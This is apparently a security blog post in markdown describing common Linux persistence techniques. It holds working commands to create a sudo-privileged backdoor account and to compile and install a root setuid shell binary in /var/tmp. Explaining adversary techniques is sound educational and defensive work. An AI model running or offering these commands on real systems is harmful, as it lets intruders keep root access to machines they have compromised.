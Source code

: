 ```yaml
---
layout: single
title: "Common Linux Persistence Techniques"
excerpt: "The adversary is attempting to keep their foothold.
Persistence refers to strategies used by adversaries to maintain access to systems despite restarts, changing credentials, and other disruptions that may terminate their access. "
date: 2021-11-10 00:22:00 -0000
classes: wide
header:
  teaser: 
  teaser_home_page: true
  icon: 
categories: linux
permalink: /linux/persistence
tags: [linux, persistence]

---
```


# Common Linux Persistence Techniques


This post will cover a few common linux persistence techniques used by adversary to establish permanent access. The adversary is attempting to keep their foothold.
Persistence refers to strategies used by adversaries to maintain access to systems despite restarts, changing credentials, and other disruptions that may terminate their access. 

---
## Creating privilege account

The adversary tends to create a high privilege account to maintain access on the compromised system. They usually create a user with a sudo privilege across the system.

`sudo useradd -p $(openssl passwd -1 $USERPASS) -s /bin/bash -G sudo $USERNAME`
    
## Creating SUID Binary

A binary with its SUID bit set, implying that everything run by the programs will be done with that user's privileges. If the SUID binary is set with root privilege, anyone that run the binary will have access with the root privilege.

	tempdir="/var/tmp"
	echo 'int main(void){setresuid(0, 0, 0);system("/bin/sh");}' > $tempdir/suid00r.c
	gcc $tempdir/suid00r.c -o $tempdir/suid00r 2>/dev/null
	rm $tempdir/suid00r.c
	chown root:root $tempdir/suid00r
	chmod 4777 $tempdir/suid00r



